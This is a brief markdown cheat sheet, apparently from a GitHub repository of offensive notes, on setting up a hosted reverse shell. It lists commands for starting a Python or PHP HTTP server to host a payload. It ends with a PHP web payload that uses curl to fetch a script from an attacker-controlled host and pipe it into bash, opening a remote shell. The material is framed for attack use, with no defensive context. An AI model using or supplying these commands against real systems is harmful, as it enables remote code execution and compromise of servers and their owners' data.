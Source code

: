 # Hosted Reverse Shell

## 1st step is always setting up an HTTP server

### 1) Python

 - python3 -m http.server PORT

### 2) PHP

 - php -S 0.0.0.0

## 2nd step is creating a payload, then hosting it on your HTTP server

## 3rd step is calling your hosted payload to run it

### 1) PHP

 - <?php system("curl ATTACKER_IP:PORT/rev.sh|bash"); ?<
